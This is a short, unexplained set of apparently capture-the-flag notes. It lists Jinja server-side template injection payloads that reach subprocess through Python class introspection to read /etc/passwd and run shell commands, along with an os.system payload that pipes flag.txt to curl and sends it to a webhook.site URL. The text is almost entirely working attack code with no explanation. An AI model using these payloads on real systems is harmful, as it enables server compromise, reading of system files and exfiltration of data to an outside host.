 
__import__('os').system('cat ./flag.txt').read()


280

```python
    {{ ''.__class__.__mro__[1].__subclasses__()[430]('/etc/passwd').read() }}
    {{''.__class__.mro()[1].__subclasses__()[430]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
    {{ ''.__class__.mro()[1].__subclasses__()[430] }}
```

279

__import__('os').system('cat ./flag.txt | curl -X GET --data-binary @- https://webhook.site/c2ee487b-1429-416a-bdef-2f824cdb00d1?')